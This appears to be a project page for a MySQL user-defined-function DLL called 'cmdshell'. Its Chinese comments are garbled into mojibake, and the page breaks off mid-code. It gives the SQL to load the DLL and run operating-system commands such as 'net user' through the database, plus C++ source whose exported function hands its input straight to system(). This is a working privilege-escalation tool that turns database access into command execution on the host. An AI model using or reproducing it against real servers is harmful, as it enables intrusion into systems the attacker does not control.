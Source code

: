 - ִ��CMDSHELL
ʹ�÷�ʽ��

```
# ����cmdshell����
CREATE FUNCTION cmdshell RETURNS int SONAME "mysql_udf_c++.dll";
# ִ��shell�������������·��Ĭ��·����mysql��dataĿ¼�¡����磺"D:\phpStudy\MySQL\data\helllo.txt"
select cmdshell("echo hello>>helllo.txt");
# ע��cmshell�������
Drop function cmdshell;
```

CPPԴ�����£�

```
#include <winsock.h>
#include <mysql.h>  
#ifndef UNICODE
#define UNICODE
#endif
#pragma comment(lib, "netapi32.lib")

#include <stdio.h>
#include <windows.h> 
#include <lm.h>


//--------cmdshell
extern "C" __declspec(dllexport)my_bool cmdshell_init(UDF_INIT *initid, 
	UDF_ARGS *args, 
	char *message)
{   //�������� 
	unsigned int i = 0;
	if (args->arg_count == 1
		&& args->arg_type[i] == STRING_RESULT) {
		// ��������
		return 0;
	}
	else {
		strcpy(
			message
			, "Expected exactly one string type parameter"
			);
		//ִ��ʧ��	
		return 1;
	}
}
extern "C" __declspec(dllexport)my_ulonglong cmdshell(UDF_INIT *initid,
	UDF_ARGS *args, 
	char *result, 
	char *error)
{
    // ����sysytem����ִ������
	// ִ�С�net user >> hello.txt�����ʵ��·��ΪD:\phpStudy\MySQL\data\hello.txt
	// ִ���������磺select cmdshell("1");�ͻᵼ��MySQL��������
	return system(args->args[0]);

}
extern "C" __declspec(dllexport)void cmdshell_deinit(
	UDF_INIT *initid)
{

	if (initid->ptr)
	{
		free(initid->ptr);
```